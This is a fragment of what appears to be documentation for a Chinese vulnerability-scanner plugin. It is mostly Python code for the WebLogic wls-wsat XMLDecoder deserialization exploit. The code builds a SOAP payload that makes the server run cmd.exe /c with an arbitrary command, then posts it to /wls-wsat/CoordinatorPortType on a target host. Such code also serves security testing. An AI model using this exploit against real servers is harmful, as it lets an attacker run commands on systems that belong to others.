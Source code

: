 ```python
                <array class="java.lang.String" length="3">
                  <void index="0">
                    <string>C:\Windows\System32\cmd.exe</string>
                  </void>
                  <void index="1">
                    <string>/c</string>
                  </void>
                  <void index="2">
                    <string>{}</string>
                  </void>
                </array>
              <void method="start"/></void>
            </java>
          </work:WorkContext>
        </soapenv:Header>
      <soapenv:Body/>
    </soapenv:Envelope>
    '''.format(command)
    data=""
    if kwargs.get("OperatingSystem")=="windows":
        data = windows_data
    elif kwargs.get("OperatingSystem")=="linux":
        data=linux_data
    try:
        payload = '/wls-wsat/CoordinatorPortType'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "text/xml",
        }
        resp = requests.post(payload_url, headers=headers, data=data, proxies=proxies, timeout=6, verify=False)
        con = resp.text
        ExploitOutput().Banner()#无回显调用函数
        _t = VulnerabilityInfo(con)
        Exploit(_t.info, url, **kwargs).Write()  # 传入url和扫描到的数据
    except Exception as e:
        print("\033[31m[ ! ] Execution error, the error message has been written in the log!\033[0m")
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:" + _ + " || Target Url:" + url +" || Exploit", e)  # 调用写入类传入URL和错误插件名
```

### exploit函数

>  该函数传入参数在medusa函数的基础上做出了修改
